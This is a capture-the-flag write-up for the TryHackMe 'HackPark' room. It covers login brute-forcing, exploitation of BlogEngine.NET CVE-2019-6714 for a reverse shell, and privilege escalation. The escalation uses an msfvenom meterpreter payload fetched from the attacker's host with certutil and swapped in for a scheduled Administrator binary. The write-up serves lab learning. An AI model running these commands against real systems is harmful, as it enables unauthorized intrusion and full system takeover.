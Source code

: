 # HackPark (THM)

- https://tryhackme.com/room/hackpark
- March 18, 2023
- medium

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### HTTP

- found login page 

![](screenshots/2023-03-18-22-55-12.png)

- CMS may be blogengine.net

```
1. Whats the name of the clown displayed on the homepage?
- download the image and search in google lens
- found that it is from IT Part 2 TV series
- answer is name of clown
```

![](screenshots/2023-03-18-23-10-19.png)

```
2. What request type is the Windows website login form using?
- it is clear `POST`
```

```
3. Guess a username, choose a password wordlist and gain credentials to a user account!
- the author suggest to user hydra but for me use turbo intruder from burp which is too fast
- I look up the hint for username as I normally don't want to brute force at login pages
```
![](screenshots/2023-03-18-23-25-04.png)

![](screenshots/2023-03-18-23-23-07.png)

- enter admin panel 

![](screenshots/2023-03-18-23-27-05.png)

```
4. Now you have logged into the website, are you able to identify the version of the BlogEngine?
```

![](screenshots/2023-03-18-23-28-24.png)


![](screenshots/2023-03-18-23-51-15.png)

- OR https://www.exploit-db.com/exploits/46353

```
5. What is the CVE?
CVE-2019-6714
```

## User Access

- to get reverse shell

![](screenshots/2023-03-18-23-55-40.png)

- in `http://$IP/admin/app/editor/editpost.cshtml?id=f39c3289-e861-48f7-a4b7-edaaffe6f6dc`

![](screenshots/2023-03-18-23-57-08.png)

- upload here

![](screenshots/2023-03-18-23-58-40.png)


- request to http://$IP/?theme=../../App_Data/files and

![](screenshots/2023-03-19-00-05-55.png)

```
6. Who is the webserver running as?
iis apppool\blog
```

## Privilege Escalation

### Metasploit

- we need to change the shell to meterpreter shell
- at local machine
1. Create payload with msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TUN_IP LPORT=$PORT -f exe > program.exe`

2. Listen with multi handler in metasploit

```
use multi/handler
set payload /windows/x64/meterpreter/reverse_tcp
set LHOST
set LPORT
run
```

3. Create python server at the same directory where program.exe file exists to share the program.exe file

- `python3 -m http.server 8888`

- from remote shell, get program.exe file

4. first go to public directory - `cd c:\Users\Public\Downloads`

5. download program.exe file - `certutil -urlcache -f http://$TUN_IP:8888/program.exe`

6. run `program.exe`

- will get meterpreter access 

```
7. What is the OS version of this windows machine?
> in meterpreter - `sysinfo`
```

- transfer `winpeas` using the same method as `program.exe` and run

```
8. What is the name of the abnormal service running?
- WindowsScheduler
```
![](screenshots/2023-03-19-01-25-12.png)

- you can change meterpreter session and shell by
- meterpreter -> `shell` - get shell access
- in shell -> `exit` to return meterpreter
- in meterpreter,

```sh
meterpreter > cd C:\Program Files (x86)\SystemScheduler
meterpreter > cat Events\\20198415519.INI_LOG.txt
```

![](screenshots/2023-03-19-01-30-27.png)

- Message.exe file is running once per 30 seconds by Administrator
```
9.  What is the name of the binary you're supposed to exploit? 
- Message.exe
```

- replace `Message.exe` with our `program.exe` file

```sh
meterpreter > shell
C:\Program Files (x86)\SystemScheduler > certutil -urlcache -f http://10.11.8.57:8888/program.exe shell.exe
C:\Program Files (x86)\SystemScheduler > exit

meterpreter > mv Message.exe Message.bak
meterpreter > mv shell.exe Message.exe
meterpreter > background

msf6 exploit(multi/handler) > use /multi/handler
msf6 exploit(multi/handler) > run
```
- wait for 30 seconds and get admin access


```
10.  What is the user flag (on Jeffs Desktop)?
meterpreter > cat C:\Users\jeff\Desktop\user.txt
```

```
11.  What is the root flag?
meterpreter > cat C:\Users\Administrator\Desktop\user.txt
```

```
12. what was the Original Install time? (This is date and time)
- can see in systeminfo
```

![](screenshots/2023-03-19-01-37-50.png)

---